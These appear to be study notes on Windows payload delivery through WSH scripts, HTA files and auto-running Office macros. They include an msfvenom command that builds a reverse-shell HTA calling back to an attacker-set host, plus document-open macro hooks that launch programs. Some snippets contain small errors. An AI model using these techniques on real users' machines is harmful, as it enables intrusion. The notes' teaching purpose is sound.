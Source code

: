 # WSH
- Windows Scripting Host
- Windows Native Engine
- Two executables reponsible for running Visual Basic Scrips:
	- `cscript.exe` : Command line scripts
	- `wscript.exe` : GUI Scripts
- Simple Hello World Script:
```vb
'Can be executed with wscript.exe script.vbs
Dim Message
Message = "Hello World"
MsgBox Message
```
- Run a program with vbs
```vb
Set Shell = Wscript.CreateObject("Wscript.Shell")
Shell.run("C:\Windows\System32\cmd.exe" & Wscript.ScriptFullName),0,True
'Executing the above with wscript.exe payload.exe will run cmd.exe in a new window
'Can also be run with cscript.exe
```
# HTA
- HTML Application, ends with `.hta`
- Dynamic HTML pages that contains `JScript` and `VBscript`
- `mshta.exe` is used to execute `.hta` files.
- Can also be executed automatically with Internet Explorer.
- An `.hta` files that executes binary
```html
<html>
<body>
<script>
	var c = 'cmd.exe';
	new ActiveXobject('Wscript.Shell').Run(c);
</script>
</body>
</html>
```
- This can be hosted with any web server.
- MsfVenom can be used to create a reverse shell with the `.hta` format
```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<ip> -f hta-psh -o reverse.hta
```
- Metasploit exploit `exploit/windows/misc/hta_server` can be used to host a webserver hosting an HTA file.
# VBA
- Visual Basic for Application, implimented by Microsoft for it's application such as Word, Powerpoint using macros.
- Can access Windows Application Programing Interface, and low level APIs.
- Simple VBA Macro to display text:
```vb
Sub Popup()
	MsgBox ("Hello World!")
End Sub
'The above macro can be run by F5
```
- VBA to run code when the document is opened:
```vb
Sub Document_Open()
	Popup
End Sub

Sub AutoOpen()
	Popup
End Sub

Sub Popup()
	MsgBox ("Hello World")
```
- Macro is supported by specific file formats such as 
	- `.doc`
	- `.docm`
 - VBA to run commands: 
```vb
Sub Calc()
	Dim Payload as String
	Payload = "calc.exe"
	CreateObject("Wscript.Shell").Run Payload,0
End Sub
```

# PSH